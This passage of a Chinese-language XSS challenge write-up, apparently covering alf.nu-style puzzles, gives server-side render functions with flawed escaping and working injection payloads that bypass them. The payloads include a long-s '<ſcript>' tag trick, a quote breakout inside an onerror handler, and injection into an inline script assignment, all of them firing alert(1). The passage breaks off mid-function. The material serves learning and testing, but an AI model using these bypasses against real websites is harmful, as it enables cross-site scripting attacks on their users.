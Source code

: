```javascript
<ſcript src=x onerror=&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;></script>

// 古英文字符ſ大写后为S（ſ不等于s）
// 脑洞题
// 如果使用加载外部js文件需注意是否区分大小写
```

##### 0x0F

```javascript
// server code
function render (input) {
  function escapeHtml(s) {
    return s.replace(/&/g, '&amp;')
            .replace(/'/g, '&#39;')
            .replace(/"/g, '&quot;')
            .replace(/</g, '&lt;')
            .replace(/>/g, '&gt;')
            .replace(/\//g, '&#x2f;')
  }
  return `<img src onerror="console.error('${escapeHtml(input)}')">`
}
```

```javascript
// input code
');alert(1) //

// 浏览器会先解析html,然后再解析js,实体编码了也可以正常解析进行闭合后插入alert,注释后面字符
```

##### 0x10

```javascript
// server code
function render (input) {
  return `
<script>
  window.data = ${input}
</script>
  `
}
```

```javascript
//input code
"";alert(1)

// 闭合或传值;再进行插入alert
```

##### 0x11

```javascript
// server code
// from alf.nu
function render (s) {
  function escapeJs (s) {
    return String(s)
            .replace(/\\/g, '\\\\')
            .replace(/'/g, '\\\'')
            .replace(/"/g, '\\"')
            .replace(/`/g, '\\`')
            .replace(/</g, '\\74')
            .replace(/>/g, '\\76')
            .replace(/\//g, '\\/')
            .replace(/\n/g, '\\n')
```